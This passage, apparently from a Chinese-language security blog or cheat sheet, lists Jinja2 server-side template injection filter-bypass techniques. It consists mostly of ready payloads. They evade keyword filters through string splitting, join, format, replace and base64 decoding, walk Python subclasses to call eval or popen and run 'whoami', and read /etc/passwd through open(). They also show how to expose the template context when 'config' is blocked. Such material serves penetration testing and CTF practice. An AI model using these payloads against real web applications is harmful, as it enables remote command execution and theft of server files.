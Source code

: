 *   拼接字符绕过
    

这里以过滤 class 为例子，用中括号括起来然后里面用引号连接，可以用`+`号或者不用

```
{{()['__cla'+'ss__'].__bases__[0]}}
{{()['__cla''ss__'].__bases__[0]}}
```

随便写个 payload 如下

```
{{()['__cla''ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev''al']("__im""port__('o''s').po""pen('whoami').read()")}}
```

或者可以使用 join 来进行拼接

```
{{()|attr(["_"*2,"cla","ss","_"*2]|join)}}
```

看到有师傅甚至用管道符加上`format`方法来拼接的骚操作，也就是我们平时说的格式化字符串，其中的`%s`被`l`替换

```
{{()|attr(request.args.f|format(request.args.a))}}&f=__c%sass__&a=l
```

*   使用使用`str`原生函数
    

`replace`绕过，payload 如下

```
{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}
```

`decode`绕过，但这种方法经过测试只能在 python2 下使用，payload 如下

```
{{().__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

*   替代的方法
    

过滤 init，可以用`__enter__`或`__exit__`替代

```
{{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

过滤 config，我们通常会用`{{config}}`获取当前设置，如果被过滤了可以使用以下的 payload 绕过

```
{{self}} ⇒ <TemplateReference None>
{{self.__dict__._TemplateReference__context}}
```
